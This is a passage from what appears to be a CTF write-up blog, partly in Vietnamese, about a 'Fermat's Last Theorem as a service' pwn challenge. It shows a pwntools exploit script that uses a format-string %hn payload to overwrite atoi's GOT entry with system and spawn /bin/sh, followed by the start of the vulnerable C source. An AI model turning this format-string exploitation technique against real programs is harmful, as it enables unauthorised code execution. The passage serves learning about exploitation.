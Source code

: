 ```python
payload2 = b"1_______%" + str(values[0][1] - 46).encode("ascii") + b"p%" + values[0][2].encode("ascii") + b"$hn%" 
payload2 += str(values[1][1] - values[0][1]).encode("ascii") + b"p%"+ values[1][2].encode("ascii") + b"$hn%"
payload2 += str(values[2][1] - values[1][1]).encode("ascii") + b"p%"+ values[2][2].encode("ascii") + b"$hn--" 

r.sendlineafter("B: ",payload2)

##################################

r.recvuntil("Calculating for A: ")
log.info("rewrote atoi GOT to system")

payload1 = b"/bin/sh\x00"
r.sendlineafter("A: ",payload1)
payload2 = b"/sh"
r.sendlineafter("B: ",payload2)
                
r.interactive()




```


## Detail

Sorry vì có vài thứ ở tận đây, tuy nhiên vì mình muốn note những thứ quan trọng lên trên để dễ search, so my blog, my choice :))

### source

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>

#define SIZE 0x100

int main(void)
{
  char A[SIZE];
  char B[SIZE];

  int a = 0;
  int b = 0;

  puts("Welcome to Fermat\\'s Last Theorem as a service");

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("A: ");
  read(0, A, SIZE);
  printf("B: ");
  read(0, B, SIZE);

  A[strcspn(A, "\n")] = 0; // return len 
  B[strcspn(B, "\n")] = 0; // B[len] = 0 ???, maybe it like null byte :))
```